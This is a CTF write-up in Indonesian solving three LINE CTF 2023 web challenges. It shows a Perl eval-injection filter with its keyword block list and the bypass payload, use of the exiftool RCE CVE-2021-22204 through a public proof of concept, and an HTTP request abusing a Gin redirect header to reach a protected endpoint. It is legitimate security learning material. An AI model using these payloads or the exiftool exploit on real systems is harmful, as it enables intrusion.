 # Old Pal - web
## Description
How about an Old Pal for your aperitif?
http://104.198.120.186:11006/cgi-bin/main.pl?password=

## Exploit
Pada challenge ini kita diberikan source code sebagai berikut.

```perl 
#!/usr/bin/perl
use strict;
use warnings;

use CGI;
use URI::Escape;


$SIG{__WARN__} = \&warn;
sub warn {
    print("Hacker? :(");
    exit(1);
}


my $q = CGI->new;
print "Content-Type: text/html\n\n";


my $pw = uri_unescape(scalar $q->param("password"));
if ($pw eq '') {
    print "Hello :)";
    exit();
}
if (length($pw) >= 20) {
    print "Too long :(";
    die();
}
if ($pw =~ /[^0-9a-zA-Z_-]/) {
    print "Illegal character :(";
    die();
}
if ($pw !~ /[0-9]/ || $pw !~ /[a-zA-Z]/ || $pw !~ /[_-]/) {
    print "Weak password :(";
    die();
}
if ($pw =~ /[0-9_-][boxe]/i) {
    print "Do not punch me :(";
    die();
}
if ($pw =~ /AUTOLOAD|BEGIN|CHECK|DESTROY|END|INIT|UNITCHECK|abs|accept|alarm|atan2|bind|binmode|bless|break|caller|chdir|chmod|chomp|chop|chown|chr|chroot|close|closedir|connect|cos|crypt|dbmclose|dbmopen|defined|delete|die|dump|each|endgrent|endhostent|endnetent|endprotoent|endpwent|endservent|eof|eval|exec|exists|exit|fcntl|fileno|flock|fork|format|formline|getc|getgrent|getgrgid|getgrnam|gethostbyaddr|gethostbyname|gethostent|getlogin|getnetbyaddr|getnetbyname|getnetent|getpeername|getpgrp|getppid|getpriority|getprotobyname|getprotobynumber|getprotoent|getpwent|getpwnam|getpwuid|getservbyname|getservbyport|getservent|getsockname|getsockopt|glob|gmtime|goto|grep|hex|index|int|ioctl|join|keys|kill|last|lc|lcfirst|length|link|listen|local|localtime|log|lstat|map|mkdir|msgctl|msgget|msgrcv|msgsnd|my|next|not|oct|open|opendir|ord|our|pack|pipe|pop|pos|print|printf|prototype|push|quotemeta|rand|read|readdir|readline|readlink|readpipe|recv|redo|ref|rename|require|reset|return|reverse|rewinddir|rindex|rmdir|say|scalar|seek|seekdir|select|semctl|semget|semop|send|setgrent|sethostent|setnetent|setpgrp|setpriority|setprotoent|setpwent|setservent|setsockopt|shift|shmctl|shmget|shmread|shmwrite|shutdown|sin|sleep|socket|socketpair|sort|splice|split|sprintf|sqrt|srand|stat|state|study|substr|symlink|syscall|sysopen|sysread|sysseek|system|syswrite|tell|telldir|tie|tied|time|times|truncate|uc|ucfirst|umask|undef|unlink|unpack|unshift|untie|use|utime|values|vec|wait|waitpid|wantarray|warn|write/) {
    print "I know eval injection :(";
    die();
}
if ($pw =~ /[Mx. squ1ffy]/i) {
    print "You may have had one too many Old Pal :(";
    die();
}


if (eval("$pw == 20230325")) {
    print "Congrats! Flag is LINECTF{redacted}"
} else {
    print "wrong password :(";
    die();
};
```

Untuk membypass semua itu kita bisa menggunakan payload berikut.

```
20230325-v48
```

Dimana v48 equal denga '0' sehinggal nanti menghasilkan `20230325` yang merupakan password yang harus kita inputkan.

# Imagexif - web
## Description
This site provides you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination.

## exploit
Pada challenge ini kita akan meng-eksploitasi [CVE-2021-22204](https://github.com/bilkoh/POC-CVE-2021-22204/blob/main/build_image.pl).

Saat kita melihat dockerfile pada backend kita akan menemukan bahwa mesin tersebut menggunakan versi exiftool yang vulnerable.

```dockerfile 
RUN wget https://github.com/exiftool/exiftool/archive/refs/tags/12.22.tar.gz && \
    tar xvf 12.22.tar.gz && \
    cp -fr /exiftool-12.22/* /usr/bin && \
    rm -rf /exiftool-12.22 && \
    rm 12.22.tar.gz
```

Kita akan menggunakan POC berikut untuk mendapatkan flagnya https://github.com/bilkoh/POC-CVE-2021-22204/blob/main/build_image.pl.

![](https://i.imgur.com/Xxs4FEo.png)

Jalankan perintah diatas dan nanti akan muncul image `notevil.jpg`, kita kirim image tersebut ke server dan kita akan mendapatkan flagnya.

![](https://i.imgur.com/nv5sPuR.png)

# Adult Simple GoCurl - web
Pada challenge ini kita perlu membuat request ke `/flag`, disini kita bisa memanfaatkan fitur pada module gin golang yaitu `X-Forwarded-Prefix` untuk lebih jelasnya bisa dilihat disini https://github.com/gin-gonic/gin/pull/1238/commits/0906ea946d9f39dc5b8e9b4832d1eb9eaa8ca35f.

Fitur ini berfungsi untuk mengubah redirect dari golang dengan mendambahkan value yang kita berikan tadi ke header `Location`.

Berikut request yang saya gunakan untuk menyelesaikan challenge ini.

```http 
GET /curl/?url=http://127.0.0.1:8080//&header_key=X-Forwarded-Prefix&header_value=/flag HTTP/1.1
Host: 34.84.87.77:11001
Connection: close
```

![](https://i.imgur.com/RDif5Ht.png)

# Our Team Writeup
@daffainfo

https://github.com/daffainfo/ctf-writeup/tree/main/LINE%20CTF%202023
| Category | Challenge |
| --- | --- |
| Web | Baby Simple GoCurl

@kaelanalysis

https://github.com/maulvialf/CTF-Writeups/tree/main/2023/linectf
- rev
	1. fishing
	2. jumpit
